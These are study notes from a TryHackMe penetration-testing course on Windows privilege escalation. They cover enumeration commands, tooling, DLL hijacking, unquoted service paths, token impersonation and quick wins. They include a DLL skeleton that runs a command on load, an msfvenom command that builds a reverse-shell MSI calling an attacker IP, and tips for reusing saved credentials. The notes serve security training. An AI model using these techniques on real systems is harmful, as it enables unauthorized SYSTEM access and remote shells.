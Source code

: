 # TryHackMe: Jr. Penetration Tester

* **author**:: Nathan Acks
* **date**:: 2022-04-21

## Windows PrivEsc

### Introduction

Common Windows user levels:

* Local Admin
* Local User
* Guest User
* Domain User
* Domain Admin

Note that non-admin domain users may still be local admins.

Note that most Windows antivirus products will not allow enumeration scripts to be run.

Here's a useful checklist:

* [Windows - Privilege Escalation (PayloadsAllTheThings)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

### Information Gathering

* `whoami /priv` - current user + privileges
* `net user` - list all (local) users
* `net user $USERNAME` - get details for user `$USERNAME`
* `net localgroup` - list all (local) groups
* `net localgroup $GROUP` — list user in group `$GROUP`
* `query session` - list other users who are currently logged in
* `systeminfo` - return system info
* `hostname` - return system hostname
* `wmic qfe get Caption,Description,HotFixID,InstalledOn` - list installed updates (only Windows 10 21H1 and older)
* `schtasks` - list scheduled tasks
* `driverquery` - list installed drivers
* `sc` - query (and manipulate) services (does not work in PowerShell!)

Note that the `findstr` command is the Windows equivalent of `grep` (and sometimes also `find`). Also remember that you can use pipe in Windows!

Note that Windows provides the `netstat` command, and it recognizes all of the switches we'd hope it does. Note, however, that `-o` displays the PID of the process using the connection on Windows.

Microsoft Defender uses the service name `windefend`.

* [Using "netstat"](../notes/netstat.md)

### Tools of the Trade

* [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
* [Metasploit](../notes/metasploit.md)

Notes:

* WinPEAS is detected and quarantined by Microsoft Defender by default.
* PowerUp may require an unrestricted PowerShell session (`powershell -nop -exec bypass`), which can raise alerts.
* Windows Exploit Suggester analyzes the output of `systeminfo`, and can be run on the attacker's machine.
* The `multi/recon/local_exploit_suggester` module works through Meterpreter to analyze a Windows system for potential vulnerabilities.

### Vulnerable Software

* `wmic product` - list all installed software (but misses 32-bit applications installed on a 64-bit OS)
* `wimc service list brief` - another way of listing services

### DLL Hijacking

Basically, this is the Windows equivalent of exploiting `LD_PRELOAD` or `LD_LIBRARY_PATH`.

Windows DLL search order if `SafeDllSearchMode` is enabled:

* The application directory
* The system directory (as returned by `GetSystemDirectory()`)
* The 16-bit (!) system directory
* The Windows directory (as returned by `GetWindowsDirectory()`)
* The current directory (!)
* The system `PATH` (!)

Windows DLL search order if `SafeDllSearchMode` is disabled:

* The application directory
* The current directory (!)
* The system directory (as returned by `GetSystemDirectory()`)
* The 16-bit (!) system directory
* The Windows directory (as returned by `GetWindowsDirectory()`)
* The system `PATH` (!)

It seems more-or-less impossible to determine what DLLs an application is searching for without having SYSTEM access already (so tools like ProcMon can be run). So, local testing!

A skeleton DLL:

```c
#include <windows.h>

BOOL WINAPI DllMain
(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
	if (dwReason == DLL_PROCESS_ATTACH) {
		system("cmd.exe /C whoami > C:\Temp\dll.txt");
		ExitProcess(0);
	}
	return TRUE;
}
```

Compile with mingw (this *can* be done on Linux!):

```powershell
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
```

Note that Windows *also* comes with `wget`!

```powershell
# Change user foo's password to "bar" (requires admin/SYSTEM
# authority):
#
net user foo bar
#
# Note that this does *NOT* bypass any password complexity
# requirements!
```

* [Exploiting LD_PRELOAD](../notes/exploiting-ld-preload.md)
* [Exploiting LD_LIBRARY_PATH](../notes/exploiting-ld-library-path.md)

### Unquoted Service Path

Formally, when Windows encounters an unquoted service path it tries *all* possible paths, from shortest to longest. Thus `C:\Program Files\service path\service.exe` will cause Windows to look for the following executables, in order:

* `C:\Program.exe`
* `C:\Program Files\service.exe`
* `C:\Program Files\service path\service.exe`

If an executable is found on a shorter path, then the remainder of the (unquoted) path is treated as command line parameters.

Print out all services:

```powershell
wmic service get name,displayname,pathname,startmode
```

You can inspect the service paths in this output to see if any have spaces *and* are unquoted.

When checking the permissions of a folder, note that the Windows File Explorer isn't good about displaying permissions for users who have *multiple* applied ACLs. Use `icacls` or `Get-Acl $PATH | Format-List`, and be sure to keep your eyes peeled for duplicate user entries (*all* of which will be applied!).

Find a file in Windows:

```powershell
dir $FILE_NAME /S
```

* [How to find a file or folder in MS-DOS or Windows command line](https://www.computerhope.com/issues/ch000309.htm)

### Token Impersonation

Prior to Windows 10 1809 / Server 2019, services could be forced to authenticate to a local port controlled by a low-privilege attacker, which would then allow the attacker to proxy and capture the NTLM handshake and thus (typically) a SYSTEM token. (This vulnerability *technically* still exists, its just that unprivileged accounts can no longer use this token; check to see if the output of `whoami /priv` contains the `SeImpersonatePrivilege` privilege to see if you've gotten lucky.)

Exploits in this family are typically named "X Potato" after the first exploit, "Hot Potato".

### Quick Wins

(1) Look for defunct (but still running) scheduled tasks with running as a more highly privileged account that point to a path you can control.

(2) If `AlwaysInstallElevated`  is set to 1 under both of the following keys, then MSI installers will run as SYSTEM.

```powershell
reg query HKCU\Software\Policies\Microsoft\Windows\Installer

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Generate a malicious MSI file with msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
	LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT \
		-f msi -o $INSTALLER.msi
```

Then install on the target to gain SYSTEM:

```powershell
msiexec /quiet /qn /i $INSTALLER.msi
```

(3) Check for saved passwords of othe users with `cmdkey /list`. If any exist, then they can be used in `runas` with the `/savecred` flag.

(4) Sometimes registry keys contain passwords! Apparently, you can query/search across registry keys using `reg query ...`.

(5) Windows uses a file called `unattend.xml` to store setup auto-configuration information. Check if these have been left lying around.
